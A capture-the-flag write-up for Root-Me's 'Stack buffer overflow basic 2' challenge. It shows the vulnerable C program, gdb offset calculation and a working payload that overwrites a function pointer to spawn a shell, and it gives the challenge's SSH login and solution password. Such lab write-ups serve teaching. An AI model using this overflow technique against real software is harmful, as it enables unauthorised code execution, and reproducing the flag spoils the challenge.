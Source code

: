 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy
- SSH Access:&emsp;ssh -p 2222 app-systeme-ch15@challenge02.root-me.org
- Password:&emsp;app-systeme-ch15

![image](https://user-images.githubusercontent.com/48288606/141502136-47d2b4bd-50fe-47af-80a9-e3c294bfbf01.png)

## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```


- As a normal code flow, the program will point to the address of **sup()** function and execute it. Using gdb and disassembler the **main()** function and save the address of **shell (0x08048516)** <br>
- `void (*func)()=sup;` is a declaration of a function pointer and point to **sup** function. We can overflow **buffer** to overwrite this pointer and point again to **shell** function.


![image](https://user-images.githubusercontent.com/48288606/146747232-e78b70c2-9af0-413a-a20d-2b39be64cf96.png)
 
- Set breakpoint at **fgets function**. Run the program
```
gdb-peda$ b*main+0
Breakpoint 1 at 0x8048584
```

-  Input `aaaaaaaa`and watch the value. 

![image](https://user-images.githubusercontent.com/48288606/146749346-4e182441-effa-4519-8d5a-09a2d4452c7a.png)

- Our input's at **0xbffffa9c**. Now watch the return address of **sup function**.

![image](https://user-images.githubusercontent.com/48288606/146752691-aa64fb0d-7b34-4ea0-ab63-1097ee23671f.png)


- **sup** is at **0xbffffb1c**. Calculate the distance from **buffer** to address of **sup** function.
```
gdb-peda$ p/d 0xbffffb1c-0xbffffa9c
$5 = 128
```

### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Then read the `.passwd` file.

Password: B33r1sSoG0oD4y0urBr4iN

